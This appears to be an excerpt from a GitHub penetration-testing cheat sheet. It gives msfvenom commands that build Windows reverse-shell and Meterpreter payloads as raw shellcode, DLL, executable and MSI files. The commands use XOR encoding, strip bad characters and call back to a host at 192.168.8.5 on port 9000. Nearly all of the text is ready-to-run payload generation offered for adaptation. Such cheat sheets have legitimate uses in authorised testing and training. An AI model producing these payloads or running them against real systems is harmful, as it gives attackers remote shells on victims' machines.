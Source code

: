 ```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff -o payload.bin

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff -o payload.bin

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -o payload.bin

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -o payload.bin
```

To generate a `DLL file`, use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f dll -b \x00\x0a\x0d\xff -o payload.dll

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f dll -b \x00\x0a\x0d\xff -o payload.dll
```

To generate a `standalone executable`, file use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -b \x00\x0a\x0d\xff -o payload.exe

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -b \x00\x0a\x0d\xff -o payload.exe

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -o payload.exe

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -o payload.exe
```

To generate an `MSI file`, use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o payload.msi

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o payload.msi
```

Bytecode might not work on the first try due to some other bad characters. Trial and error is the key.

So far there is no easy way to generate a DLL nor MSI file with a stageless meterpreter shell due to the size issues.
